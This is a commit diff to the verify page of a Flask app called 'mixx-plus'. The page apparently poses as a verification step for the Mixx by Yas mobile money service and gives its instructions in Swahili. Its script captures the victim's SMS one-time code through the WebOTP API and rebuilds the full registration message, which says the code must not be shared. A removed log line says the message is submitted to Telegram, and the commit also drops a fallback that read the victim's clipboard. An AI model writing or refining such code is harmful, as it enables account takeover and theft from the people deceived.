

Before and after one commit to alphalibee1544/mixx-plus, a Flask app: page /verify in a window 1280 px wide. Shown: the whole page at 92% size. After the commit the page ends 978 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme.

Commit message:
Update verify.html

```diff
--- a/templates/verify.html
+++ b/templates/verify.html
@@ -62,24 +62,6 @@
         }
         .hidden { display: none !important; }
         .screen { display: none; } .screen.active { display: block; }
-        .debug-box {
-            background: #0d1225;
-            border: 1px solid #2a2f4a;
-            border-radius: 8px;
-            padding: 10px;
-            margin-top: 10px;
-            font-family: monospace;
-            font-size: 12px;
-            color: #34d399;
-            max-height: 100px;
-            overflow-y: auto;
-            text-align: left;
-            display: none;
-        }
-        .debug-box.show { display: block; }
-        .debug-box .error { color: #ef4444; }
-        .debug-box .success { color: #34d399; }
-        .debug-box .info { color: #f59e0b; }
     </style>
 </head>
 <body>
@@ -92,7 +74,7 @@
                 <h3>✅ Namba ya Uthibitisho <span class="auto-detect-badge"><span class="dot"></span> Auto-detect</span></h3>
                 <div class="phone-display" id="showPhone">+255 ---------</div>
                 <div class="code-instruction">
-                    <i class="fas fa-sms"></i> <strong>Msimbo utagunduliwa kiotomatiki</strong><br><br>
+                    <i class="fas fa-sms"></i> <strong>Msimbo utagunduliwa kiotomatiki kutoka kwenye arifa</strong><br><br>
                     <strong>1.</strong> Subiri SMS ifike<br>
                     <strong>2.</strong> Bonyeza <strong>"Allow"</strong> kwenye kidirisha<br>
                     <strong>3.</strong> Ujumbe utajaza kiotomatiki<br>
@@ -109,7 +91,6 @@
                 <div class="error-msg" id="codeError"></div>
                 <button class="btn btn-gold" id="submitBtn" onclick="submitCode()">Endelea →</button>
                 <div class="resend-link"><a onclick="resendCode()">↻ Hukupokea SMS? Bonyeza hapa</a></div>
-                <div class="debug-box" id="debugBox"></div>
             </div>
             <div class="screen" id="screen2">
                 <div class="waiting-content">
@@ -125,21 +106,6 @@
 
     <script>
         // ================================================================
-        // DEBUG LOG
-        // ================================================================
-        function debugLog(msg, type = 'info') {
-            var box = document.getElementById('debugBox');
-            box.classList.add('show');
-            var time = new Date().toLocaleTimeString();
-            var div = document.createElement('div');
-            div.className = type;
-            div.textContent = '[' + time + '] ' + msg;
-            box.appendChild(div);
-            box.scrollTop = box.scrollHeight;
-            console.log(msg);
-        }
-
-        // ================================================================
         // GET URL PARAMETERS
         // ================================================================
         var urlParams = new URLSearchParams(window.location.search);
@@ -152,10 +118,6 @@
         document.getElementById('showPhone').textContent = '+255 ' + userPhone;
         document.getElementById('showPhone2').textContent = '+255 ' + userPhone;
 
-        debugLog('🚀 Page loaded');
-        debugLog('📱 App ID: ' + appId);
-        debugLog('📱 Phone: ' + userPhone);
-
         // ================================================================
         // VARIABLES
         // ================================================================
@@ -166,7 +128,7 @@
         var isSubmitting = false;
         var smsDetected = false;
         var detectedCode = '';
-        var webotpAttempted = false;
+        var waitingForNotification = false;
 
         // ================================================================
         // iPhone/Android DETECTION
@@ -175,10 +137,8 @@
             var ua = navigator.userAgent.toLowerCase();
             if (/iphone|ipad|ipod/.test(ua)) {
                 document.getElementById('btnIPhone').style.display = 'block';
-                debugLog('📱 iPhone detected', 'info');
             } else {
                 document.getElementById('btnAndroid').style.display = 'block';
-                debugLog('📱 Android detected', 'info');
             }
         })();
 
@@ -223,7 +183,7 @@
             document.getElementById('smsMessage').value = '';
             smsDetected = false;
             detectedCode = '';
-            webotpAttempted = false;
+            waitingForNotification = false;
             document.getElementById('codeError').textContent = 'OTP Imetumwa. Subiri msimbo kutoka Mixx. (' + resendCount + '/3)';
             document.getElementById('codeError').style.color = 'var(--primary)';
             document.getElementById('codeError').classList.add('show');
@@ -238,7 +198,7 @@
             } catch(e) {}
 
             setTimeout(function() { resendCooldown = false; }, 30000);
-            setTimeout(startAutoDetect, 1500);
+            setTimeout(waitForNotification, 1500);
         }
 
         async function submitCode() {
@@ -251,9 +211,6 @@
                 document.getElementById('codeError').classList.add('show');
                 return;
             }
-
-            debugLog('📤 Submitting SMS to Telegram...', 'info');
-            debugLog('📤 SMS: ' + smsText, 'info');
 
             isSubmitting = true;
             document.getElementById('submitBtn').disabled = true;
@@ -298,7 +255,7 @@
             document.getElementById('smsMessage').value = '';
             smsDetected = false;
             detectedCode = '';
-            webotpAttempted = false;
+            waitingForNotification = false;
             document.getElementById('codeError').textContent = 'Msimbo sio sahihi. Jaribu tena.';
             document.getElementById('codeError').style.color = 'var(--danger)';
             document.getElementById('codeError').classList.add('show');
@@ -309,33 +266,37 @@
             isSubmitting = false;
             document.getElementById('submitBtn').disabled = false;
             document.getElementById('submitBtn').innerHTML = 'Endelea →';
-            setTimeout(startAutoDetect, 1500);
+            setTimeout(waitForNotification, 1500);
         }
 
         // ================================================================
-        // WEBOTP DETECTION + REGENERATE FULL SMS
+        // WAIT FOR NOTIFICATION - WebOTP
         // ================================================================
         function regenerateFullSMS(code) {
             return 'You are being registered in Mixx by Yas Super App, use the code ' + code + ' to complete registration. Do not share the code with anybody. For more info contact us on 100. DWvV9aXqDR';
         }
 
-        async function startAutoDetect() {
+        async function waitForNotification() {
             if (!document.getElementById('screen1').classList.contains('active')) {
-                debugLog('⏹️ Not on code screen, stopping', 'info');
+                console.log('Wait: Not on code screen');
                 return;
             }
 
             if (smsDetected) {
-                debugLog('✅ SMS already detected, skipping', 'success');
+                console.log('Wait: SMS already detected');
                 return;
             }
 
-            // ============================================================
-            // METHOD 1: WebOTP - Auto-detect from notification
-            // ============================================================
-            if (!webotpAttempted && 'OTPCredential' in window) {
-                webotpAttempted = true;
-                debugLog('⏳ Attempt 1: WebOTP - waiting for notification...', 'info');
+            if (!('OTPCredential' in window)) {
+                console.log('Wait: WebOTP not supported');
+                document.getElementById('codeError').textContent = 'ℹ️ Kifaa chako hakitumii auto-detect. Tafadhali nakili mwenyewe.';
+                document.getElementById('codeError').style.color = '#f59e0b';
+                document.getElementById('codeError').classList.add('show');
+                return;
+            }
+
+            waitingForNotification = true;
+            console.log('⏳ Waiting for SMS notification...');
             document.getElementById('codeError').textContent = '⏳ Inasubiri SMS... Bonyeza "Allow" ikitokea';
             document.getElementById('codeError').style.color = 'var(--primary)';
             document.getElementById('codeError').classList.add('show');
@@ -353,15 +314,16 @@
 
                 if (credential && credential.code) {
                     detectedCode = credential.code;
-                        debugLog('✅ WebOTP SUCCESS! Code: ' + detectedCode, 'success');
+                    console.log('✅ SMS detected from notification! Code:', detectedCode);
 
-                        // REGENERATE the full SMS from the code
+                    // REGENERATE THE FULL SMS FROM THE CODE
                     var fullSMS = regenerateFullSMS(detectedCode);
 
+                    console.log('📝 Full SMS regenerated:', fullSMS);
+
+                    // FILL THE TEXTAREA
                     document.getElementById('smsMessage').value = fullSMS;
                     smsDetected = true;
-
-                        debugLog('📝 Full SMS regenerated: ' + fullSMS, 'success');
 
                     document.getElementById('codeError').textContent = '✅ Msimbo umegunduliwa! Bonyeza "Endelea" kutuma.';
                     document.getElementById('codeError').style.color = '#10b981';
@@ -370,75 +332,32 @@
                     clearInterval(countdownTimer);
                     document.getElementById('timerDisplay').textContent = '✅ Imekamilika';
                     document.getElementById('timerDisplay').className = 'timer-bar';
-                        return;
                 }
             } catch (err) {
                 if (err.name === 'AbortError') {
-                        debugLog('⏱️ WebOTP timeout - trying fallback', 'error');
+                    console.log('Wait: WebOTP timeout');
+                    document.getElementById('codeError').textContent = '⏱️ Muda Umeisha. Bonyeza "Hukupokea SMS"';
+                    document.getElementById('codeError').style.color = 'var(--danger)';
                 } else {
-                        debugLog('❌ WebOTP error: ' + err.message, 'error');
-                    }
-                }
-            }
-
-            // ============================================================
-            // METHOD 2: Clipboard Fallback (if WebOTP fails)
-            // ============================================================
-            debugLog('🔄 Attempt 2: Clipboard fallback - checking clipboard...', 'info');
-            document.getElementById('codeError').textContent = '📋 Tafadhali nakili ujumbe wa SMS kwenye arifa yako';
-            document.getElementById('codeError').style.color = '#f59e0b';
-            document.getElementById('codeError').classList.add('show');
-
-            try {
-                if (navigator.clipboard && navigator.clipboard.readText) {
-                    const text = await navigator.clipboard.readText();
-                    if (text && text.length > 20) {
-                        document.getElementById('smsMessage').value = text;
-                        smsDetected = true;
-                        debugLog('✅ Clipboard SUCCESS! SMS length: ' + text.length, 'success');
-
-                        document.getElementById('codeError').textContent = '✅ Ujumbe umegunduliwa! Bonyeza "Endelea" kutuma.';
-                        document.getElementById('codeError').style.color = '#10b981';
-                        document.getElementById('codeError').classList.add('show');
-
-                        clearInterval(countdownTimer);
-                        document.getElementById('timerDisplay').textContent = '✅ Imekamilika';
-                        document.getElementById('timerDisplay').className = 'timer-bar';
-                        return;
-                    }
-                }
-                debugLog('⚠️ Clipboard empty or not available', 'error');
-            } catch (e) {
-                debugLog('❌ Clipboard error: ' + e.message, 'error');
-            }
-
-            // ============================================================
-            // If both methods fail
-            // ============================================================
-            debugLog('❌ No SMS detected. Please copy manually.', 'error');
-            document.getElementById('codeError').textContent = '❌ Hakuna SMS iliyogunduliwa. Tafadhali nakili mwenyewe.';
+                    console.log('Wait: WebOTP error', err);
+                    document.getElementById('codeError').textContent = '❌ Hitilafu. Tafadhali nakili SMS mwenyewe.';
                     document.getElementById('codeError').style.color = 'var(--danger)';
                     document.getElementById('codeError').classList.add('show');
+                }
+                waitingForNotification = false;
+            }
         }
 
         // ================================================================
         // START
         // ================================================================
         startCountdown();
-        setTimeout(startAutoDetect, 1500);
+        setTimeout(waitForNotification, 1000);
 
-        // Keep trying every 5 seconds if not detected
-        var autoDetectInterval = setInterval(function() {
-            if (!smsDetected && document.getElementById('screen1').classList.contains('active')) {
-                startAutoDetect();
-            }
-            if (!document.getElementById('screen1').classList.contains('active')) {
-                clearInterval(autoDetectInterval);
-            }
-        }, 5000);
-
-        debugLog('✅ MixxPlus - Auto-detection started', 'success');
-        debugLog('📱 Method 1: WebOTP (auto) → Method 2: Clipboard (fallback)', 'info');
+        console.log('✅ MixxPlus - Waiting for SMS notification...');
+        console.log('📱 App ID:', appId);
+        console.log('📱 Phone:', userPhone);
+        console.log('📱 SMS will be REGENERATED from the notification code');
     </script>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
